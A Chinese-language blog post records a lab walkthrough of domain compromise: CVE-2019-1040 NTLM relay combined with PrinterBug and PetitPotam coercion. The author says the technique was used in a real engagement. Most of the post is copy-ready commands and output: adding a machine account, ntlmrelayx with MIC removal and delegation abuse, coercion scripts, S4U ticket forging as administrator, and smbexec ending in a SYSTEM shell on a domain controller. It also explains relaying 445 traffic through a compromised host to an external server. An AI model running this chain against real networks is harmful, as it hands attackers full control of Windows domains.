





# CVE-2019-1040 配合打印机漏洞实现攻击主域控进行资源委派攻击辅助域控 - zpchcbd - 博客园

> 原文：[`www.cnblogs.com/zpchcbd/p/15857942.html`](https://www.cnblogs.com/zpchcbd/p/15857942.html)

前言：实战中这个打法也用到了一次，这里记录一下 CVE-2019-1040 攻击方法的学习

参考文章：[`en.hackndo.com/ntlm-relay/`](https://en.hackndo.com/ntlm-relay/)

这里大家需要注意下，虽然本地搭建看起来能直接打，但是实际环境并不是这样子的，我遇到的环境 445 是直接通外网服务器的，但是我还碰到过有个环境就是不能直接通外网的 445 的，这时候你需要做下 445 流量的重定向，先将域控发送过来的 SMB 请求转发到当前被控主机的其他端口，然后再将这个端口转发到外网的 445 中去，然后再将请求中继回另一个域控，也就是中间需要再做一层转发才可以，其他的就没有什么需要注意的了

=2023-07-31=

今天回顾这篇文章发现上面的话语描述混乱，这里对上面的文字进行重新说明下。

这边简单的模拟叙述一个环境，比如目前我想打 ADCS 中继

域控服务器：192.168.75.202 win
证书服务器：192.168.75.156 win
域机器（被控制）：192.168.75.158
外网服务器：1.1.1.1

原因：由于运营商的原因，导致被中继主机无法直接访问外网的 445 端口

解决方法：

*   在域机器 192.168.75.158 上面通过 https://github.com/Arno0x/DivertTCPconn 项目进行转发流量 445 到 8445（这里举例 8445）
*   接着继续在域机器 192.168.75.158 上面通过 netsh 将 8445 端口流量转发到要 ADCS 中继的服务器 1.1.1.1
*   接着 ADCS 中继的服务器上面进行 ntlmrelayx 利用即可

参考文章：[`mp.weixin.qq.com/s/GdmnlsKJJXhElA4GuwxTKQ`](https://mp.weixin.qq.com/s/GdmnlsKJJXhElA4GuwxTKQ)

# CVE-2019-1040

该漏洞可以绕过 NTLM 中的 MIC（消息完整性检查），修改已经过协商签名的身份验证流量。

因此，可以利用 printerbug 或者 PetitPotam，将 SMB 身份验证中继到 LDAP，再使用中继 LDAP 身份验证，将受害者服务器的基于资源的委派权限授予到攻击者控制下的计算机账户。

在有辅助域的内网中，利用此漏洞，就能直接获取到域控的权限。

# PrinterBug 配合资源约束委派打法

Printerbug 使得拥有控制域用户/计算机的攻击者可以指定域内的一台服务器，并使其对攻击者选择的目标进行身份验证，因此可以与 CVE-2019-1040 结合一起使用。

当前环境信息：

192.168.4.11 DC1 主域空

192.168.4.142 DC2 辅助域控

192.168.4.141 WIN-BING-PC

192.168.4.137 中继机器

WIN-BING-PC 机器流量代理到中继机器上


由于所有域用户向都可以在域中添加 10 个计算机帐户，因此在受控的 WIN-BING-PC 上，使用 kk 的用户身份新建一个机器用户 hengGe

`hyscan --scantype ldapscan --ldaptype addComputer --dc 192.168.4.11 --domainName hengge.com --pcname hengGe`



执行 ntlmrelayx.py 脚本，`--delegate-access`选项是将中继计算机帐户的访问权限委托给攻击者，`--escalate-user`参数设置 hengGe 机器用户的资源委派，`--remove-mic`参数了是去除 mic 验证，如下所示

`python ntlmrelayx.py -t ldap://192.168.4.11 -smb2support --remove-mic --delegate-access --escalate-user hengGe$ -debug`




`python printerbug.py hengge.com/kk:admin@444@192.168.4.142 192.168.4.137`


```
root@zpchcbd-virtual-machine:~/impacket/examples# python getST.py -dc-ip 192.168.4.11 hengge.com/hengge$:123456 -spn cifs/DC2 -impersonate administrator
Impacket v0.9.25.dev1+20211027.123255.1dad8f7 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
root@zpchcbd-virtual-machine:~/impacket/examples# export KRB5CCNAME=administrator.ccache
root@zpchcbd-virtual-machine:~/impacket/examples# python smbexec.py -dc-ip 192.168.4.142 hengge.com/administrator@DC2 -k -no-pass -debug
Impacket v0.9.25.dev1+20211027.123255.1dad8f7 - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/local/python3/lib/python3.8/site-packages/impacket-0.9.25.dev1+20211027.123255.1dad8f7-py3.8.egg/impacket
[+] StringBinding ncacn_np:DC2[\pipe\svcctl]
[+] Using Kerberos Cache: administrator.ccache
[+] Returning cached credential for CIFS/DC2@HENGGE.COM
[+] Using TGS from cache
[+] Executing %COMSPEC% /Q /c echo cd  ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami 
```


# PetitPotam 配合资源约束委派打法

PetitPotam 使得拥有控制域用户/计算机的攻击者可以指定域内的一台服务器，并使其对攻击者选择的目标进行身份验证，因此可以与 CVE-2019-1040 结合一起使用。

当前环境信息：

192.168.4.11 DC1 主域空

192.168.4.142 DC2 辅助域控

192.168.4.141 WIN-BING-PC

192.168.4.137 中继机器

PetitPotam 和 PrinterBug 调用的接口不一样，但是都可以让域内的服务器发起身份验证，这里不详细学习了，这里还是一样演示利用过程

小知识点：在 16 的环境以下，默认在`网络安全:可匿名访问的命名管道中有三个 netlogon、samr、lsarpc`。因此在这个环境下是可以匿名触发的



可以看到，直接匿名同样可以进行触发，这种仅局限于 08 12 的环境 `python PetitPotam.py 192.168.4.137 192.168.4.142`



16 的环境就需要一个域用户来进行触发了 `python PetitPotam.py -u kk -p admin@444 -d hengge.com 192.168.4.137 192.168.4.142`



同样的通过 s4u2self 来进行相关的 cifs 的服务票据，然后通过 smbexec 来进行命令执行，我这里用 windows 来进行演示下

```
D:\ATTACK\内网渗透\impacket-master\examples>python getST.py -dc-ip 192.168.4.11 hengge.com/hengge$:123456 -spn cifs/DC2 -impersonate administrator
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache

D:\ATTACK\内网渗透\impacket-master\examples>set KRB5CCNAME=administrator.ccache

D:\ATTACK\内网渗透\impacket-master\examples>python smbexec.py -dc-ip 192.168.4.142 hengge.com/administrator@DC2 -k -no-pass -debug
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: D:\python38\lib\site-packages\impacket-0.9.24-py3.8.egg\impacket
[+] StringBinding ncacn_np:DC2[\pipe\svcctl]
[+] Using Kerberos Cache: administrator.ccache
[+] Returning cached credential for CIFS/DC2@HENGGE.COM
[+] Using TGS from cache
[+] Executing %COMSPEC% /Q /c echo cd  ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
[+] Executing %COMSPEC% /Q /c echo whoami ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
nt authority\system 
```

